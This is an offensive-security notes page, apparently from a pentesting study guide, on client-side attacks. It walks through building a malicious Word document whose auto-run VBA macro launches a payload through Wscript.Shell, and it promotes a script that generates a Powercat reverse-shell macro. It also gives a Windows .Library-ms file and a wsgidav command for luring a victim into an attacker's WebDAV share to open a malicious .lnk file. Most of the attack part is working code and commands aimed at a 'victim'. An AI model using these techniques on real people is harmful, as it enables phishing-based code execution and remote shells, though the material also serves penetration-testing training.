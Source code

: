 # Client Side

## Exploiting Microsoft Office

Steps to reproduce the doc macros attack using vba script

1. Create new file using **Microsoft Word**.
2.  Create a new macro - View > Macros:

    <figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>


3. Give the macro name > Select **Macros in document** > Click on Create:

<figure><img src="../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

4. Write the Macro script within the payload:

```vba
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    Str = <Payload>
    CreateObject("Wscript.Shell").Run Str
End Sub
```

5. Save the file in **doc\docm** format which considered less secured, so the victim will just need to press **enable** to initiate the macros .

***

I've created useful python script which generates the VBA script content with Powercat Revshell payload given Local Host and Port:

```python
python3 vba-powercat-revshell.py <local_host> <ip>
```

{% embed url="https://gist.github.com/dudisamarel/74c215772ae1e5d2a9db3b2995317250" %}

## Exploiting Windows Library Files

Libraries are virtual containers for users' content.

This attack leverage **.Library-ms** file which will connect to attacker controlled WebDAV and be sent to a victim. Once the victim opens the file, he will think the WebDAV is a local windows folder. Then in the next stage the victim will click a malicious **.lnk** file using the WebDAV.&#x20;



First creating the **.Library-ms** file:&#x20;

<pre class="language-xml"><code class="lang-xml">&#x3C;?xml version="1.0" encoding="UTF-8"?>
&#x3C;libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
&#x3C;name>@windows.storage.dll,-34582&#x3C;/name>
&#x3C;version>6&#x3C;/version>
&#x3C;isLibraryPinned>true&#x3C;/isLibraryPinned>
&#x3C;iconReference>imageres.dll,-1003&#x3C;/iconReference>
&#x3C;templateInfo>
&#x3C;folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}&#x3C;/folderType>
&#x3C;/templateInfo>
&#x3C;searchConnectorDescriptionList>
&#x3C;searchConnectorDescription>
&#x3C;isDefaultSaveLocation>true&#x3C;/isDefaultSaveLocation>
&#x3C;isSupported>false&#x3C;/isSupported>
&#x3C;simpleLocation>
&#x3C;url><a data-footnote-ref href="#user-content-fn-1">http://webdav_address</a>&#x3C;/url>
&#x3C;/simpleLocation>
&#x3C;/searchConnectorDescription>
&#x3C;/searchConnectorDescriptionList>
&#x3C;/libraryDescription>
</code></pre>

* **`<libraryDescription>`**: This is the root element that defines the overall structure of a Windows library configuration.
* **`<name>`**: Refers to a string identifier for the library.
* **`<version>`**: Specifies the version of the library schema.
* **`<isLibraryPinned>`**: Indicates whether the library is pinned in the user's navigation pane.
* **`<iconReference>`**: Points to the resource for the icon associated with the library.
* **`<templateInfo>`**: Contains metadata about the library's folder type template.
* **`<folderType>`**: Defines the folder type or classification of the library using a GUID, which influences its behavior and appearance. These tag determine the columns and details that appear in Windows Explorer.
* **`<searchConnectorDescriptionList>`**: A wrapper for a collection of search remote connectors that the library can use.
* **`<searchConnectorDescription>`**: Defines individual search connectors, specifying details like save location and support status.
* **`<isDefaultSaveLocation>`**: Indicates whether this search connector is the default location for saving files, set to true here.
* **`<isSupported>`**: used for compatibility.
* **`<simpleLocation>`**: Specifies the search connector’s location in a simplified format.
* **`<url>`**: Points to the URL of the **attacker's WebDAV server**.



Serving the WebDAV Server including malicious files such `.lnk` file that runs PowerShell.

```bash
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root <directory_to_serve>
```

## References

{% embed url="https://learn.microsoft.com/en-us/windows/client-management/client-tools/windows-libraries" %}

[^1]: 
